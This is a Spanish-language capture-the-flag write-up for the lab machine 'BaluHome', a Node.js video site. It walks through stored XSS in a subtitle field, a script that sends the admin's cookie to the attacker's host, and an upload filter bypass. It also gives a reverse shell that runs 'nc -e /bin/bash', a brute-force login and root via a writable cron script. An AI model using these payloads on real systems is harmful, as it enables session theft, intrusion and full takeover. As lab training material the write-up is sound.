










## Table of contents

## Enumeración

La máquina BaluHome tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 172.17.0.2

Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js (Express middleware)
|_http-title: BaluTube
MAC Address: 66:7A:05:A1:6B:CD (Unknown)
```

### Puerto 3000 (Web)

Entramos con el navegador y nos encontramos una web de videos "Balutube". En ella nos podemos registrar, así que, creamos un usuario **test** y accedemos con él.



Disponems de tres opciones en el panel:
- Subir vídeos.
- Enviar mensajes a otros miembros, como **admin**.
- Ver la información sobre nuestro canal/cuenta.

Vamos a irnos a la sección de subir vídeos y a subir un vídeo de prueba.



Una vez lo hemos publicado se nos redirige al subdirectorio **/video/13** donde podemos ver el vídeo y añadir subtítulos.

## Explotación 
### XSS

Vamos a tratar de abusar del apartado de "Añadir subtítulos", para ello en el campo "Contenido (VTT o texto plano)" ingresamos unas etiquetas de html para ejecutar javascript.

```html
<script>alert(1)</script>
```

Al subirlo nos aparece el menú de **alert(1)** que habíamos introducido, confirmamos que este campo es vulnerable a **Cross-Site Scripting** (**XSS**).




Vamos a aprovecharnos de este **XSS** para tratar de obtener la cookie de sesión del admin usando el sistema de mensajes. Pero primero, debemos de comprobar que la propiedad **HttpOnly** de nuestra cookie de sesión esté como **false** para que podamos obtenerlas a través de javascript.

Accedemos a las opciones de desarrollo pulsado F12 > Storage > Cookies.



Confirmamos que la propiedad está fijada como **false**. Vamos a crear un script que llamaremos **exploit.js** que obtendrá la cookie del admin y nos la enviará a nuestro servidor http.

```javascript
var xhr= new XMLHttpRequest();
xhr.open("GET","http://172.17.0.1/?c=" +  btoa(document.cookie), false);
xhr.withCredentials=true;
xhr.send();
```

Ahora en el apartado de "Añadir subtítulos" enviamos unas etiquetas de html que cargue nuestro **exploit.js**

```javascript
<script src="http://172.17.0.1/exploit.js"></script>
```

Tras enviarlo, nos copiamos la url en la que está alojado el vídeo y nos vamos a la sección de mensajes.

Nos levantamos un servico http con python.

```bash
python3 -m http.server 80
```

Y le enviamos al admin la url del vídeo, en nuestro caso **http://172.17.0.2:3000/video/13**



```bash
python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [15/Jul/2026 20:12:18] "GET /exploit.js HTTP/1.1" 200 -
172.17.0.2 - - [15/Jul/2026 20:12:18] "GET /?c=YmFsdXR1YmUuc2lkPXMlM0FwSEVBRlZtWFRzalVYWk9zWFZfa3hqRGlvN1JTLXh2YS5ZWDZhbGNsNUNpdXJjVlRvbkhoSjgxZXUzbSUyQlZnb0NPQm9LVmE3ODRVUFU= HTTP/1.1" 200 -
```

Recibimos la cookie en base64 del admin, ahora la decodificamos.

```bash
echo 'YmFsdXR1YmUuc2lkPXMlM0FwSEVBRlZtWFRzalVYWk9zWFZfa3hqRGlvN1JTLXh2YS5ZWDZhbGNsNUNpdXJjVlRvbkhoSjgxZXUzbSUyQlZnb0NPQm9LVmE3ODRVUFU=' | base64 -d
balutube.sid=s%3ApHEAFVmXTsjUXZOsXV_kxjDio7RS-xva.YX6alcl5CiurcVTonHhJ81eu3m%2BVgoCOBoKVa784UPU
```

Pegamos el valor de la cookie en nuestro navegador y accedemos a **/channel/admin**.



Hemos conseguido entrar la panel como admin.

### RCE

En el apartado de miniaturas podemos subir imágenes para las miniaturas de los vídeos.



Nos creamos un archivo **rev.js** que contenga una reverse shell en **nodejs**

```javascript
require('child_process').exec('nc -e /bin/bash 172.17.0.1 4444')
```

Al tratar de subir este **rev.js** nos arroja un mensaje de "Solo se permiten imágenes", por lo tanto, usamos **Burpsuite** para bypassear esta restricción.

El backend lo único que comprueba es el **Content-type**, por lo que lo fijamos como **image/jpg** y conseguimos subir el archivo **js**.



Una vez subido, nos ponemos en escucha con **netcat**

```bash
nc -nlvp 4444
```

Y para que se ejecute la reverse shell debemos de acceder al vídeo al que le hayamos subido el **rev.js** como miniatura. En nuestro caso es el de la imagen de abajo, el vídeo 12. Accedemos a ver su contenido y recibimos la reverse shell.



```bash
nc -nlvp 4444

Listening on 0.0.0.0 4444
Connection received on 172.17.0.2 59382

script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@d376dd8dcbbe:/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Entramos como **www-data**. Ahora tocaría realizar el tratamiento de la **tty**.

## Movimiento Lateral
### Balutin

Tras enumerar el sistema no encontramos gran cosa, por lo que vamos a realizar un ataque de fuerza bruta contra el usuario **balutin**. Para ello, vamos a emplear este script.

- **https://github.com/nohh022/bruteForce**

La máquina víctima no dispone de **wget**, **curl**, **vim** ni **nano**, por lo que empleamos **netcat** para obtener el script y el diccionario **rockyou.txt**.

Nos ponemos en escucha en la máquina víctima y redirigimos la salida del comando a un archivo.

```bash
nc -nlvp 2000 > /tmp/force.sh
```

Y desde nuestra máquina enviamos el archivo.

```bash
cat force.sh >/dev/tcp/172.17.0.2/2000
```

**Nota:** Si utilizas una **zsh** en tu máquina y te muestra un error al ejecutar el cat de esa manera, usa una **bash**.

Repetimos el mismo proceso para el rockyou, le damos permisos de ejecución a **force.sh** y ejecutamos el ataque.

```bash
www-data@3822cebc4a09:/tmp$ ./force.sh balutin rockyou.txt
Testing: 123456
Testing: 12345
Testing: 123456789
....
User--> balutin Password--> 123123
```

Conseguimos las credenciales de **balutin** : **123123**

## Escalada de Privilegios
### Root

```bash
balutin@d376dd8dcbbe:~$ id
uid=1001(balutin) gid=1002(balutin) groups=1002(balutin),1001(mantenimiento)
```

Balutin pertenece al grupo **mantenimiento**, el cual tiene permisos de lectura, escritura y ejecución sobre **/opt/balutube-backup/backup.sh**

Si revisamos este archivo vemos que se indica que se ejecuta cada minuto por el usuario **root**.

```bash
#!/bin/bash
# BaluTube - backup automatico de uploads y base de datos.
# Se ejecuta cada minuto via el crontab de root (ver docker/crontab-root).
....
```


Por lo tanto vamos a hacer que le de permisos **SUID** a la bash.

```bash
echo "chmod u+s /bin/bash" >> /opt/balutube-backup/backup.sh
```

Esperamos un minuto y la bash recibe permisos **SUID**, nos lanzamos una bash privilegiada y somos **root**.

```bash
balutin@d376dd8dcbbe:/$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Sep  6  2025 /bin/bash

balutin@d376dd8dcbbe:/$ bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root
total 8
drwx------ 1 root root   8 Jul 15 08:21 .
drwxr-xr-x 1 root root  36 Jul 15 17:46 ..
-rw-r--r-- 1 root root 571 Apr 10  2021 .bashrc
drwxr-xr-x 1 root root  68 Jul 15 08:21 .npm
-rw-r--r-- 1 root root 161 Jul  9  2019 .profile
```